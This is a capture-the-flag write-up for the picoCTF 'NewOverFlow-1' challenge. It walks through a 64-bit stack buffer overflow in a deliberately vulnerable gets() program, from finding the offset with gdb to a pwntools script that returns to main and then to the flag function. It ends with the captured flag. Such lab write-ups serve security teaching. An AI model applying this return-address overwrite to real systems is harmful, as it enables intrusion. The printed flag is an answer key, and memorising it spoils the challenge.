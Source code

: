 # NewOverFlow-1 - Points: 200
<b>Description : </b>Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_5_bd04c7682164df72135e036dd527b668 on the shell server. Source.<br>
<b>Hints : </b>Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes
# Solved
Lets check the source
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
So take a note, this is a 64-bit program. So address of application its 8 byte. So i try to get <b>flag</b> addr
```
objdump -D ./vuln | grep "flag"
0000000000400767 <flag>
```
```python
'\x67\x07\x40\x00\x00\x00\x00\x00'
```
We look again at <b>BUFFSIZE</b> is <b>64 Length</b>, so i need <b>8 Bytes</b> to overflow and this is what happens when i overflow it.
```python
print 'A' * 72 | ./vuln
```
Its stuck and nothing happening. So i increase it into 80 bytes and finally got this
```python
print 'A' * 80 | ./vuln
```
```
Program received signal SIGSEGV, Segmentation fault.
0x00000000004007e7 in vuln ()
(gdb) bt
#0  0x00000000004007e7 in vuln ()
#1  0x4141414141414141 in ?? ()
#2  0x00007ffee3527800 in ?? ()
#3  0x0000000100400680 in ?? ()
#4  0x00007ffee35278e0 in ?? ()
#5  0x0000c30e00000000 in ?? ()
#6  0x0000000000400860 in ?? ()
```
Okay we got the address to place address flag! lets try to place the address flag
```python
python -c 'print "A" * 72 + "\x67\x07\x40\x00\x00\x00\x00\x00"' | ./vuln

Welcome to 64-bit. Give me a string that gets you the flag:
Segmentation fault (core dumped)
```
Still got Segmentation fault! :(. So i try to read some write-ups by https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/NewOverFlow-1.md. He found there is problem in function <b>printf, while attempting to print the flag.</b> <i>This value is 16-byte aligned, so the program crashes. Looks like a compiler optimization is standing between us and the flag.

The solution was to call main again via the original payload, and then call flag as intended. Lucky for us, the stack was correctly aligned for such a call stack.</i><br>
So this is my python script to solving this
```python
from pwn import *

p = process("./vuln")

# First Payload into function main execute
# 00 00 00 00 00 40 07 e8 <main>
payload = "A" * 72 + "\xe8\x07\x40\x00\x00\x00\x00\x00"
p.sendlineafter("Welcome", payload)
log.info("Payload into function <main> Done")

# Last Payload into function flag to execute
# 00 00 00 00 00 40 07 67 <flag>
payload = "A" * 72 + "\x67\x07\x40\x00\x00\x00\x00\x00"
p.sendlineafter("Welcome", payload)
log.info("Payload into function <flag> Done")

print p.recvall()
```
```
[+] Starting local process './vuln': pid 254066
[*] Payload into function <main> Done
[*] Payload into function <flag> Done
[+] Receiving all data: Done (104B)
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 254066)
 to 64-bit. Give me a string that gets you the flag:
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_351346a2}
```
Flag : <b>picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_351346a2}</b>